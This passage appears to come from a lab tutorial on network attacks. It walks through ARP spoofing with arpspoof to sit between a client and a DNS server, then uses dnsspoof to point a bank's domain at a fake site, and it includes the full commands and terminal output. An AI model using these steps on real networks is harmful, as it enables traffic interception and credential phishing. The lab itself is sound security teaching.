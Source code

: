 
Check the client's ARP table to see what MAC address is currently associated with the server's IP address:

```
arp -a -i eth1
```

You should see the "good" server's actual MAC address, e.g. in my experiment:

```
dns-good-link-0 (10.10.1.2) at 02:b7:c8:cf:b7:ce [ether] on eth1
```

Next, we are going to use ARP spoofing to make the client believe we are the "good" server, and the server believe we are the client. On the attacker, run:


```
# Enable packet forwarding
sysctl -w net.ipv4.ip_forward=1
# get IP address of client from the "good" server
clientip=$(dig @10.10.1.2 +short client)
# ARP spoofing: make client think we are
# the "good" server, and vice versa
arpspoof -i eth1 -t 10.10.1.2 "$clientip" &
arpspoof -i eth1 -t "$clientip" 10.10.1.2 &
```

In the terminal output, you can see that the attacker sends ARPs to the client impersonating the "good" DNS server (which is at 10.10.1.2), and also sends ARPs to the "good" server impersonating the client:

```
2:60:70:39:bf:e2 2:b7:c8:cf:b7:ce 0806 42: arp reply 10.10.1.37 is-at 2:60:70:39:bf:e2
2:60:70:39:bf:e2 2:f:7:a6:c6:d8 0806 42: arp reply 10.10.1.2 is-at 2:60:70:39:bf:e2
```

On the client node, check the ARP table again with

```
arp -a -i eth1
```

You should see that what the client now believes that the "good" server's MAC address is actually the attackers' MAC address!

```
dns-good-link-0 (10.10.1.2) at 02:60:70:39:bf:e2 [ether] on eth1
```

Finally, we're ready to offer up some bad name resolution. In a second terminal on the attacker, run

<pre>
echo "<b>66.104.96.102</b> bankofhamilton.com" > /tmp/badhosts

dnsspoof -i eth1 -f /tmp/badhosts
</pre>

substituting for the part in bold the public IP address for the "bank" node that you found in a [previous step](#setupthefakewebsite).
